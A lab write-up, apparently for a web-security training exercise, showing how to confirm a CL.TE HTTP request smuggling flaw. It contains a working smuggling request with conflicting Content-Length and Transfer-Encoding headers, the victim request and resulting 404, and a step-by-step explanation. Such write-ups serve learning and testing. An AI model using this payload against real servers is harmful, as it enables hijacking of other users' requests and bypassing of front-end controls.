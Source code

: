 ## 1. Introduction

In this lab it will be confirmed if CL.TE vulnerability exists, meaning that the Frontend uses Content-Length and Backend processes requests using Transfer-Encoding.

## 2. Challenge

The challenge is to smuggle a request to the backend, so that the subsequent request for the web root "/" triggers a 404 Not Found response.

## 3. Solution

Attack Request:
```http
POST / HTTP/1.1
Host: 0a67003404744ddb85da30b5008e00b5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Append: X
```

Normal Request:
```http
GET / HTTP/1.1
Host: 0a67003404744ddb85da30b5008e00b5.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=VpYpqEjVKOPBTUVhWu3M5xqpbiDV9fRt; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

## 4. Explanation

Since we want to confirm if this is a CL.TE vulnerability we suppose that Frontend processes Content-Length, so we leave the option to update it automatically.

In the body of the attack request we put our request that we want to smuggle in the backend, which in this case is intended to cause a 404. But, since we also suppose that the backend processes Transfer-Encoding, then we have to craft the body in such a way that the chunked message will be ended before our smuggled request.

This as the backend will be tricked to think that at that point "0", the request ended and the next part of the body to be counted as part of the next sequence:

```http
0

GET /404 HTTP/1.1
```

But, if we leave the body as this, when the normal request comes, it will be appended right after the "GET /404 HTTP/1.1", and we will have the following:

```http
GET /404 HTTP/1.1
GET / HTTP/1.1
...
```

And this will be invalid, since we will have two "GETs", and in this case we just need to put some header, so when the appending happens, there will not be two GET methods, that's where the "X-Append: X" comes. And the smuggled request will look like:

```http
GET /404 HTTP/1.1
X-Append: XGET / HTTP/1.1
...
```

This will cause a 404 Not Found.